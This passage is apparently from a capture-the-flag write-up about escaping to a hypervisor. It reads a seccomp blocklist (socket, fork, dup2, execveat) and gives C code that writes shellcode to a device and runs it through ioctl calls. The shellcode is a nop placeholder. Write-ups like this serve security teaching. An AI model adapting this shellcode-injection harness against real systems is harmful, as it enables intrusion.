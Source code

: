 ```bash
 0006: 0x15 0x00 0x01 0x00000039  if (A != fork) goto 0008
 0007: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0008: 0x15 0x00 0x01 0x00000021  if (A != dup2) goto 0010
 0009: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0010: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0012
 0011: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

So, this is a blacklist of `socket`, `fork`, `dup2`, and `execveat` system calls. However, we can still use `open` and `write`, and the remote provides us the output of the hypervisor!

## Exploitation

So, let's create a userland program that when executed performs the trip to the `hypervisor` and executes some shellcode:

```c
//main.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/mman.h>

const char *shellcode = "\x90\x90\x90\x90"; //4x "nop" instruction
const size_t shellcode_len = 4;

int main(int argc, char ** argv) {
    int fd = open("/dev/exploited-device", O_RDWR);
    if(fd == -1) {
        perror("open"); exit(1);
    }

    ssize_t res = write(fd, shellcode, shellcode_len);
    if(res != shellcode_len) {
        printf("write error. Written: %ld\n", res); exit(1);
    }
    if ( (res = ioctl(fd, 0xdead)) < 0) { //write shellcode to supervisor
        perror("ioctl1"); exit(1);
    }
    if ( (res = ioctl(fd, 0xbeef)) < 0) { //invoke shellcode
        perror("ioctl2"); exit(1);
    }

    return 0;
}
```

Next, let's write a script that builds our userland program and re-creates the initramfs:
